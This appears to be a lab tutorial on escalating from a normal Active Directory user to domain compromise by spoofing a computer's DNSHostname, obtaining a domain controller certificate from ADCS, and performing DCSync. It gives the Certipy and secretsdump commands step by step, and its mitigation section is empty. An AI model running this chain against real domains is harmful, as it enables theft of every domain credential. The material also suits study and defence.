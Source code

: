 # Outline
- The Attack In Brief
- Tools Needed
- Lab Setup And Conditions
- Attack Demonstration
- The Exploit as a Conversation
- The Technical Breakdown
- Mitigation
- References and Credits

---

# The Attack In Brief
1. By default, A regular AD user can add up to 10 computers to the domain.
2. After a user adds a computer to the domain, he gains the right to change its `DNSHostname` property.
3. By changing this property to be a domain controller's `DNSHostname`, he can request a certificate for it from ADCS.
4. Using the domain controller's certificate, we can obtain its NTLM hash.
5. And with that, we can request a complete copy of the domain hashes a.k.a perform a **DCSync** attack.

---

# Tools Needed
1. Certipy (https://github.com/ly4k/Certipy)
2. Impacket (https://github.com/SecureAuthCorp/impacket)

---

# Lab Setup And Conditions
## 1. Domain Controller with ADCS Role installed [DC.LAB.Local: 192.168.126.129]
![dc-with-adcs-installed](dc-with-adcs-installed.jpg)

## 2. Kali [192.168.145.128]
![kali-machine](kali-machine.jpg)

## 3. Normal User Account (No Special Privileges)
![normal-ad-user](normal-ad-user.jpg)

---

# Attack Demonstration
## 1. Joining A Machine Account to The Domain with A Spoofed `DNSHostname`
Command: `certipy account create <DOMAIN_FQDN>/<AD_USER>@<DC_IP> -user '<NEW_COMPUTER_NAME>' -dns <DC_FQDN>`

![creating-computer-with-spoofed-dns-hostname](creating-computer-with-spoofed-dns-hostname.jpg)

![proof-of-dns-hostname-spoofing](proof-of-dns-hostname-spoofing.jpg)

## 2. Requesting A Domain Controller's Certificate
we must first know the certificate authority's name.

This can be done by visiting the `/certsrv` web directory on the server with ADCS installed and authenticating:

![finding-out-the-ca-name](finding-out-the-ca-name.jpg)

Command: `certipy req -dc-ip <DC_IP> <DOMAIN_FQDN>/'<ADDED_COMPUTER_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -ca <CA_NAME> -template Machine`
Password = same password generated from the computer creation in the previous step

![requesting-dc-cert](requesting-dc-cert.jpg)

## 3. Using the Domain Controller's Certificate To Get its NTLM Hash
Command: `certipy auth -pfx <GENERATED_PFX_CERTIFICATE>`

![got-nt-hash-for-dc](got-nt-hash-for-dc.jpg)

## 4. Performing `DCsync` As The Impersonated Domain Controller
Command: `secretsdump.py -just-dc <DOMAIN_FQDN>/'<DC_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -hashes :<RETRIEVED_HASH>`

![dc-sync-with-dc-ntlm-hash](dc-sync-with-dc-ntlm-hash.jpg)

---

# The exploit: A Conversation
\+ **User:** Mr. AD! I heard that I could join 10 computers to the domain without any special privileges. Is this for real?

\- **AD:** Thats right! knock yourself out!

\+ **User:** Yo ADCS! can I request a certificate from you?

\~ **ADCS:** Sure! what do you need this certificate for, user or computer?

\+ **User:** I have my own certificate. Thanks. Can I get that for the computer I just joined to the domain?

\~ **ADCS:** You bet! all domain computers can get their certificate!

\+ **User:** Oh that's great! Alright, i'll need one for my computer here. But can I make its `DNShostname` like this? \*shows domain controller fully-qualified domain name\*

\~ **ADCS:** \*inspects the certificate request closely and looks confused\* Well um... this is weird. But you totally have the permission to do that. \*Hands him a certificate with the domain controllers `DNSHostname` one it\*

\+ **User:** Thank you ADCS! This certificate is good for authentication too, Right?

\~ **ADCS:** That's correct.

\+ **User:** Perfect!

\+ **User:** AD! \*Points to the newly joined computer\*. There's another domain controller here that wants to get a copy of all the passwords. Would that be OK?

\- **AD:** Yea I know that domain controller. \*Sends him a copy of all the domain hashes\*

\+ **User:** Oh you're so generous AD <3

\- **AD:** Just doing my job :D

---

# The Technical Breakdown

## Puzzle Piece #1: About Certificate Templates: The Process, Who's allowed to enroll? what can they do with a certificate?
Here's the process:
1. First, a client (User/Computer) generates a public/private key pair.
2. Client sends a Certificate Signing Request (CSR) to an Enteprise CA Server.
3. A user client will need to access the User Certificate Template. Same goes for a computer client. So both templates must exist.
4. Templates have permissions too. If the template allows the client to request a certificate, he should be good to go and the CA will sign his certificate with its own private key.
5. After recieving a user/computer certificate, they can both be used for authentication. This is the default.
6. This authentication is because of the PKINIT kerberos extension. Meaning that: If you have a valid certificate, you can get a TGT.

## Puzzle Piece #2: the permissions for the computer certificate template
The computer certificate is accessible to any computer in the Domain Computers Group:

## Puzzle Piece #3: The Default Privileges Of A Normal AD User
In Active Directory, any member of the `Authenticated Users` group is allowed to add up to 10 computers to the domain.

We can verify that by going to `MMC -> ADSI EDIT > DEFAULT NAMING CONTEXT > DOMAIN PROPERTIES`

![machine-account-quota](machine-account-quota.jpg)

## Puzzle Piece #4: The Permissions an AD User Has on The Computer He Joins to the domain
When a user adds a computer to the domain, he gains a few permissions on it:

![permissions-of-computer-owner](permissions-of-computer-owner.jpg)

![computer-certificate-template-permissions](computer-certificate-template-permissions.jpg)

This allows the user to set the `DNSHostname` property which ADCS uses to generate the certificate.

With a domain controller's certificate, we can request a TGT on its behalf and gain its NTLM hash too.

# mitigation

# references and credits